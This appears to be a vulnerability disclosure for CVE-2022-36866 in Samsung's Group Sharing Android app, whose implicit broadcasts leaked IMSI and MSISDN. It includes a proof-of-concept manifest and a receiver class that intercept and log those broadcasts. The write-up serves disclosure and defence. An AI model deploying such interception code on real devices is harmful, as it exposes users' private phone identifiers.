

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Group Sharing</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.mobileservice</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.27</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.09.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36866">CVE-2022-36866</a> (SVE-2022-0765)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$680</td>
    </tr>
</table>

# Description

Oversecured found the app using implicit intents to send broadcasts:


These broadcasts contained private data such as IMSI and MSISDN. As of SDK 29, access to them is protected by the permission `android.permission.READ_PRIVILEGED_PHONE_STATE`.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<receiver android:name=".MyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.samsung.android.coreapps.easysignup.ACTION_AUTH_RESULT" />
    </intent-filter>
    <intent-filter>
        <action android:name="com.samsung.android.mobileservice.auth.ACTION_DEVICE_AUTH_COMPLETED" />
    </intent-filter>
</receiver>
```

File `MyReceiver.java`:
```java
public class MyReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        DumpUtils.dump(intent, getClass().getClassLoader());
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
